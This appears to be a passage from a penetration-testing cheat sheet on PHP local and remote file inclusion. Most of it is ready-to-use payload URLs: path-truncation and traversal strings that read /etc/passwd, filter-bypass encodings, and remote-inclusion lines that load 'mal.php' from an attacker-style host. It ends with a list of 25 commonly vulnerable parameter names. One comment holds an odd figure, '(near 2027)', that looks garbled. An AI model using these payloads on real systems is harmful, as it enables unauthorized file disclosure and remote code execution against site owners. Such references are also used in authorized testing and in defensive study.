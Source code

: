 ```text
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

Always try to **start** the path **with a fake directory** \(a/\).

**This vulnerability was corrected in PHP 5.3.**

### **Filter bypass tricks**

```text
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
```

## Basic RFI

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

## Top 25 parameters

Here’s list of top 25 parameters that could be vulnerable to local file inclusion \(LFI\) vulnerabilities \(from  [link](https://twitter.com/trbughunters/status/1279768631845494787)\):

```text
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
